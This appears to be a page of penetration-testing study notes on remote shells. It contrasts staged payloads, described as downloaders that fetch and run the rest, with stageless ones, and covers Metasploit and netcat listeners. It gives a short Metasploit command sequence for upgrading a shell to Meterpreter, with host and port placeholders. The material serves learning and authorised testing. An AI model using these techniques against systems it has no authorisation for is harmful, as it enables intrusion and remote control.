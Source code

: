 # Shells

![](<../../../../.gitbook/assets/image (25) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader  part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```

